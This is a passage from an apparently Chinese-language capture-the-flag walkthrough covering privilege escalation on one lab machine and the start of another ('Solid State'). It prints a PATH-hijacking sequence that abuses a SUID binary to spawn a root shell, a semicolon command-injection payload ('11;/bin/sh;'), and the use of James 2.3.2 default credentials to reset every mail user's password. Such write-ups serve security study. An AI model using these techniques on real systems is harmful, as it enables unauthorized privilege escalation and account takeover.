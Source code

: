 反弹shell成功
![image.png](https://s2.loli.net/2025/05/12/4fpeQVChynGscvw.png)

## 提权
登录到kane用户发现了一个文件
![image.png](https://s2.loli.net/2025/05/12/g2BvhfZwMFA5JIk.png)

这个文件有s权限 而且还有cat命令


## 环境变量劫持
```
echo '/bin/sh' > cat
chmod 777 cat
export PATH=./:$PATH
./msgmike
```
![image.png](https://s2.loli.net/2025/05/12/G3qUpM6stiYr5Nk.png)


在mike查看有个文件

![image.png](https://s2.loli.net/2025/05/12/a3uUzS81A6KNbZW.png)
## 使用分割符绕过并执行命令
```
11;/bin/sh;
```

![image.png](https://s2.loli.net/2025/05/12/yPZdC5TKGkE8OjJ.png)



![image.png](https://s2.loli.net/2025/05/12/hQGMrUjcT4pmdIE.png)

# solid state（完）
## nmap和目录爆破
有个很神奇的发现

![image.png](https://s2.loli.net/2025/04/30/2FpikjXSgJ6lNU9.png)

有个james 2.3.2 这是个关键点 在浏览器中能找到james 2.3.2的漏洞

是个弱口令登录 root:root

使用nc连接 就能连接进去

发现能找到很多用户 我们全部改成统一密码 

![image.png](https://s2.loli.net/2025/05/02/bncx85Gfq6JuF17.png)

